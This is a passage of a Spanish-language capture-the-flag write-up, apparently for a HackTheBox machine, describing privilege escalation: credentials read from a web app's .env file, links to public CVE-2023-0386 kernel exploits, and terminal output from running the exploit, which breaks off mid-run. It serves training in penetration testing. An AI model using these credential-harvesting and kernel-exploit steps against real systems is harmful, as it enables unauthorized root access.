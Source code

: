 ## Escalar Privilegios

### www-data 

Para escalar privilegios realizamos una enumeraciíon basica de variables de entorno y encontramos las credenciales
```
-rw-r--r-- 1 root root 87 Jun  2 18:56 /var/www/html/.env                                                                                                                            
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

### admin
Una vez como el usuario `admin` encontramos que la versión del kernel es vulnerable

![20231003200237.png](20231003200237.png)

### Root 
#### CVE-2023-0386

Vamos a descargarnos los explois de los sigueintes links y subir el exploit y ejecutar 

- [https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits)
- [https://github.com/sxlmnwb/CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386)

#### Terminal 1

```shell
admin@2million:/tmp/tmp.jrzrl3YKBU/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601

```
